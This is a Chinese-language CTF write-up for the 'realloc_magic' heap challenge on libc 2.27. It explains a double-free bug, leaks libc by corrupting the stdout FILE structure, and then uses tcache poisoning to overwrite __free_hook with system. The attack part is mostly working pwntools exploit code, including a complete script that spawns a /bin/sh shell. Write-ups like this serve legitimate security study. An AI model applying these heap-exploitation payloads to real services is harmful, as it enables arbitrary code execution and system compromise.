




### 程序分析

该程序使用的是libc2.27

程序有3个功能

1. realloc
2. free
3. back_door

#### realloc


程序代码如上

可以看到功能非常简单

读取一个size，然后调用realloc去重新分配内存，最后使用read去读取内容

但是realloc对于不同size，有不同的功能

* size == 0 ，这个时候等同于free
* realloc_ptr == 0 && size > 0 ， 这个时候等同于malloc
* malloc_usable_size(realloc_ptr) >= size， 这个时候等同于edit
* malloc_usable_size(realloc_ptr) < szie， 这个时候才是malloc一块更大的内存，将原来的内容复制过去，再将原来的chunk给free掉

#### free



这里就是单纯的free，并且没有置0

#### back_door



这里是将realloc_ptr置为0，并且机会只有一次

### 漏洞利用

程序很明显有double free的漏洞，但是怎么利用是一个问题

程序把所有保护都开启了，并且没有show函数，因此第一步就首先要leak libc地址

这里采用的攻击stdout 结构体，修改flag和write_base

#### leak libc

首先分配三个chunk，A、B、C、D，大小分别为0x68, 0x98, 0xa8, 0xb8

分配之后的内存布局如图


对应的exp如下

```
realloc(0x68,'a')
realloc(0,'')
realloc(0x98,p64(0)*5+p64(0x21)+p64(0)*2+p64(0x20)+p64(0x21))
realloc(0,'')
realloc(0xa8,'c')
realloc(0,'')
```

首先将chunk B delete到刚好进入unsorted bin，然后再realloc回 chunk A，然后realloc刚好 chunk A + chunk B的size，这样就能修改chunk B处的libc地址，在干这个的同时把chunkB的size也改掉

完成之后的结果如图



对应的exp如下
```
realloc(0x98,'d')
for i in range(7):
    delete()
realloc(0,'')
realloc(0x68,'e')
realloc(0x100,'\0'*0x68+p64(0x31)+'\x60\x77')
```

之后再realloc两次0x98的chunk，就能控制到stdout，然后修改flags，write_base

因为这里攻击是依靠碰撞，需要碰撞4bit，概率其实还好

攻击完之后，因为需要回到正常的heap堆，因此这里提供了一个后面，可以清空一次realloc_ptr

exp如下

```
realloc(0,'')
realloc(0x98,'f')
realloc(0,'')
realloc(0x98,p64(0xfbad3887)+p64(0)*3+'\0',False)

data = ru(p64(0xffffffffffffffff))
if len(data) < 10 or data[:8]!=p64(0):
    exit(-1)
#gdb.attach(p)
libc = u64(data[8:16])
base = libc-0x3ed8b0
free_hook = base+0x3ed8e8
system = base+0x4f440
ru('>>')
back()
```

然后再将chunk B的size修改为0xa1，然后利用tcache poison attack到free_hook，修改为system，之后就可以调用system("/bin/sh")

最后这部分的payload入下
```
realloc(0x20,'g')
realloc(0,'')

realloc(0x100,'\0'*0x68+p64(0xa1)+p64(free_hook-8))
realloc(0,'')
realloc(0x20,'g')
realloc(0,'')
realloc(0x20,'/bin/sh\0'+p64(system))
```


完整payload如下

```
from pwn import *

debug=1
context.log_level='debug'


if debug:
    p=process('./realloc_magic')
else:
    p=remote()

def ru(x):
    return p.recvuntil(x,timeout=1)
    
def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)


def realloc(sz,data,wait=True):
    sl('1')
    ru('Size')
    sl(str(sz))
    ru('Content?\n')
    if sz == 0:
        if wait:
            ru('>>')
    else:
        se(data)
        if wait:
            ru('>>')

def delete():
    sl('2')
    ru('>>')

def back():
    sl('666')
    ru('>>')

realloc(0x68,'a')
realloc(0,'')
realloc(0x98,p64(0)*5+p64(0x21)+p64(0)*2+p64(0x20)+p64(0x21))
realloc(0,'')
realloc(0xa8,'c')
realloc(0,'')
realloc(0x98,'d')
for i in range(7):
    delete()
realloc(0,'')
realloc(0x68,'e')
#realloc(0x100,'\0'*0x68+p64(0x31)+'\x60\x07\xdd')
realloc(0x100,'\0'*0x68+p64(0x31)+'\x60\x77')
realloc(0,'')
realloc(0x98,'f')
realloc(0,'')
realloc(0x98,p64(0xfbad3887)+p64(0)*3+'\0',False)

data = ru(p64(0xffffffffffffffff))
if len(data) < 10 or data[:8]!=p64(0):
    exit(-1)
#gdb.attach(p)
libc = u64(data[8:16])
base = libc-0x3ed8b0
free_hook = base+0x3ed8e8
system = base+0x4f440
ru('>>')
back()

realloc(0x20,'g')
realloc(0,'')

realloc(0x100,'\0'*0x68+p64(0xa1)+p64(free_hook-8))
realloc(0,'')
realloc(0x20,'g')
realloc(0,'')
realloc(0x20,'/bin/sh\0'+p64(system))
sl('2')

print(hex(base))
p.interactive()
```